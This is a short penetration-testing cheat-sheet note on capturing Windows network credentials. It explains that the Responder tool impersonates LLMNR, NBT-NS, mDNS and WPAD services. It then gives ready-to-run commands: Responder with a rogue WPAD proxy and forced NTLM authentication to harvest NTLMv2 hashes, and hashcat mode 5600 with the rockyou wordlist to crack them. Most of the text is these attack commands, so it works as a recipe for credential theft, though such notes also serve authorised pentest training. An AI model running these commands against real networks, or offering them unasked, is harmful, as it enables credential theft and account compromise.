 
Responder impersonates services using LLMNR, NBT-NS, mDNS, WPAD protocols and captures credentials (usually NTLMv2 Challenge/Response) when a user attempts to authenticate against the spoofed services.

---

Capture NTLMv2 hashes with *responder* (requires user activity):
```bash
sudo responder -v -I eth0 -dwP
```
Args:
`-v`: Verbose
`-I`: Interface to listen on
`-d`: Respond to DHCP broadcast requests
`-w`: Starts a WPAD (Web Proxy Autodiscovery Protocol) rogue proxy server
`-P`: Force NTLM authentication for the proxy

Captured NTLMv2 hashes are stored in `/usr/share/responder/logs`

Cracking the NTLMv2 hash with hashcat:
```bash
hashcat -m 5600 ntlmv2_hash.txt /usr/share/wordlists/rockyou.txt
```